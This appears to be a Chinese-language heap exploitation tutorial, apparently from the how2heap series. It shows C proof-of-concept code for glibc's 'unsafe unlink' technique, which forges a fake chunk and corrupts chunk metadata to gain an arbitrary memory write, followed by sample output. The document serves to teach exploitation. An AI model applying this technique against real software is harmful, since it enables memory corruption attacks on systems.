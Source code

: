 ``` c
	printf("Therefore, we set the 'size' of our fake chunk to the value of chunk0_ptr[-3]: 0x%08lx\n", chunk0_ptr[1]);
	printf("You can find the commitdiff of this check at https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30\n\n");
	/* [4] */

	printf("We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	printf("We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");

	printf("It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	printf("If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %p\n",(void*)chunk1_hdr[0]);

	printf("We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
	chunk1_hdr[1] &= ~1;
	/* [5] */

	printf("Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
	printf("You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
	free(chunk1_ptr);
	/* [6] */

	printf("At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;
	/* [7] */
	printf("chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	printf("Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	printf("New Value: %s\n",victim_string);
	/* [8] */
}
```

本节示例的漏洞程序可以从此处下载： [unsafe_unlink](/files/how2heap/unsafe_unlink)

# 样例输出

```
Welcome to unsafe unlink 2.0!
Tested in Ubuntu 14.04/16.04 64bit.
This technique can be used when you have a pointer at a known location to a region you can call unlink on.
The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.
The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.

The global chunk0_ptr is at 0x602068, pointing to 0x603010
The victim chunk we are going to corrupt is at 0x6030a0

We create a fake chunk inside chunk0.
```